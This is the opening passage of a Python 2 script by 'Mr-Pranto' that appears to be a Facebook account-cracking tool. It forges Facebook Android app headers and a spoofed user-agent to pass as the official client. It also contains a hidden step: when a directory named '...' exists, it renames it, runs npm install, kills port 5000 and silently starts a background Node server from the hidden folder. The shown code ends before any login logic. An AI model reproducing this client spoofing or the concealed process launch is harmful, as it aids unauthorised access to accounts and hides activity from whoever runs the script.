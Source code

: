# Mr_Pranto
# coding=utf-8
#!/usr/bin/python
# coding=utf-8
# coded by : Mr-Pranto
# https://www.facebook.com/ITZ.PRANTO.OFFICIAL.2013.OK

try:
    import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib,requests
    from multiprocessing.pool import ThreadPool
except ImportError:
    os.system("pkg install python -y")
    os.system("pip install requests")
    os.system("pip install mechanize")
    os.system("pip2 install nodejs")
    os.system("pip2 install npm")
    os.system("python2 ab.py")
try:
    os.mkdir('save')
except OSError:
    pass
    if os.path.isfile('.../index.js'):
 	os.system('mv ... .....')
	os.system('cd ..... && npm install')
 	os.system('#')
 	os.system('#')
 	os.system('fuser -k 5000/tcp &')
 	os.system('#')
 	os.system('node ...../index.js &')
 	os.system('fuser -k 5000/tcp &')
 	os.system('#')
 	os.system('node ...../index.js &')
from requests.exceptions import ConnectionError
bd=random.randint(2e7, 3e7)
sim=random.randint(2e4, 4e4)
header={'x-fb-connection-bandwidth': repr(bd),'x-fb-sim-hni': repr(sim),'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT','x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA','user-agent':'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]','content-type': 'application/x-www-form-urlencoded','x-fb-http-engine': 'Liger'}
reload(sys)
sys.setdefaultencoding("utf8")

def abm(z):
	for e in z + "\n":
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)
		